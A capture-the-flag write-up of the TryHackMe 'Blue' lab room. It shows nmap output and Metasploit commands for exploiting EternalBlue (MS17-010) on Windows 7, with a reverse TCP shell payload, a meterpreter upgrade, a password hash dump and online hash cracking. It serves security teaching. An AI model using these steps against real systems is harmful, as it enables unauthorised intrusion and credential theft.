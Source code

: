 # BLUE
> 4lch3my | March 27, 2023
-------------------
#### This is a machine that allows you to practise web app hacking and privilege escalation
#### [Room Link](https://tryhackme.com/room/blue)

## Tasks
##### 1. Recon
  Scan and learn what exploit this machine is vulnerable to.

<br>

To start, I use [nmap] which is default option on the personal Kali install I have. We start with a basic command `nmap -sC -sV -A MACHINE_IP`
The `-sC` flag runs scripts against open ports as well to determine if there are external/common vulnerabilities that we can use outright. The `-sV` probes all open ports it finds to determine if we can get the service/version information. `-A` outputs in aggressive mode, so we can follow along with the commands and enumeration.
In our NMAP results we get:

```
Starting Nmap 7.93 ( https://nmap.org ) at 2023-03-26 18:10 UTC
Nmap scan report for MACHINE_IP (MACHINE_IP)
Host is up (0.00046s latency).
Not shown: 991 closed tcp ports (reset)
PORT      STATE SERVICE      VERSION
135/tcp   open  msrpc        Microsoft Windows RPC
139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds Windows 7 Professional 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)
3389/tcp  open  tcpwrapped
| rdp-ntlm-info: 
|   Target_Name: JON-PC
|   NetBIOS_Domain_Name: JON-PC
|   NetBIOS_Computer_Name: JON-PC
|   DNS_Domain_Name: Jon-PC
|   DNS_Computer_Name: Jon-PC
|   Product_Version: 6.1.7601
|_  System_Time: 2023-03-26T18:11:44+00:00
|_ssl-date: 2023-03-26T18:11:59+00:00; 0s from scanner time.
| ssl-cert: Subject: commonName=Jon-PC
| Not valid before: 2023-03-25T18:04:55
|_Not valid after:  2023-09-24T18:04:55
49152/tcp open  msrpc        Microsoft Windows RPC
49153/tcp open  msrpc        Microsoft Windows RPC
49154/tcp open  msrpc        Microsoft Windows RPC
49158/tcp open  msrpc        Microsoft Windows RPC
49160/tcp open  msrpc        Microsoft Windows RPC
MAC Address: 02:7D:FF:18:E3:75 (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).

Network Distance: 1 hop
Service Info: Host: JON-PC; OS: Windows; CPE: cpe:/o:microsoft:windows .
Nmap done: 1 IP address (1 host up) scanned in 86.79 seconds
```

We can see multiple ports open, but the first thing what my eyes are drawn to is port `445` where a `Windows 7` service is running - `microsoft‑ds`. After a quick google around for `microsoft‑ds`, UI realized this is part of the famous `MS17-010` exploit titled `EternalBlue`. This is a vulnerability posted by Microsoft back in 2017 for vulnerable SMB v1 remote code execution issues. Now that we have what the machine is vulnerable to, time to actually exploit it

##### 2. Gain Access

Right away, let's start `metasploit` a common and very powerfull vulnerability exploiter tool. This can be started with the `msfconsole` command. 

<br>

Now, we can search for the `EternalBlue` vulnerability to see if there is a built in module for this in the tool. This cna be run with: `search eternalblue`

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs6_eternalblue.png?raw=true)

To select it, we can run: `use exploit/windows/smb/ms17_010_eternalblue`

And we can see what needs to be chnaged inside of the modeule with the `options` command:

msf exploit(ms17_010_eternalblue) > options

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs6_options.png?raw=true)

As we can see, we need to set the `RHOSTS` option, so the exploit can run automatically. We can do this by simply adding:

``` 
set RHOSTS MACHINE_IP
``` 

Also, as requested by the room owner, we will set the paylod to `reverese_tcp`:

``` 
set payload windows/x64/shell/reverse_tcp
``` 

Time to run the exploit:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs6_run.png?raw=true)                                                                              

And there we go, we have access to the machine. On to Task 3
                                                                                              

##### 3. Escalate

The previously gained shell can now be background with the `CTRL + Z` command,  so we can continue down the rabbit hole.

<br>

And now we will convert our shell to a `meterpreter shell` right inside of `metasploit`! How exiting!

Run the command `search shell_to_meterpreter`:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mmfs6_shell_to_met.png?raw=true)

Then `use post/multi/manage/shell_to_meterpreter` & list the sessions with `sessions`:

<br>

Switch:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs6_sessions.png?raw=true)

And listing sessions: 

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs6_sessions2.png?raw=true)

Then `show options`:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs6_show_options.png?raw=true)

Then `set SESSION 1` & run this upgraded exploit:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs6_upgrade.png?raw=true)

Verify that it was successfull:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs6_upgrade_sessions.png?raw=true)

And the last step, to actually switch to this upgraded `meterpreter` shell:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs6_upgrade_sessions_verify.png?raw=true)

If you want to switch to a Powershell/Windows CMD shell, you can do by simple running: `shell`.

<br>

WOW! That was a mouthfull of infornmation! We can switch to the service `conhost.exe` OR `cmd.exe` on the machine for the verfication as well

##### 4. Cracking

After migration to one of the following services `conhost.exe` OR `cmd.exe` in task 3, we can now dump the passwords using the `hashdump` command:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/mfs5_hash.png?raw=true)

To crack our users password we can use a site like [THIS ONE](https://crackstation.net/) to do the task for us automatically.

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/pasword.png?raw=true)

##### 5. Find flags!

Let's run the command `search -f flag*txt` in the meterpreter session to list all files what are text files `.txt` and have the word `flag` in them:

![alt text](https://github.com/4lch3my/WriteUps/blob/main/TryHackMe/TryHackMe%20-%20Blue/images/flags.PNG?raw=true)

And as you can see, we have found all 3 flags located on this machine.

 #### Thank you for checking out my write-up about the THM room: Blue! If you are interested in other write-ups of mine or interested in some of my coding work, please feel free to look around my GitHub page! Happy hacking! - 4lch3my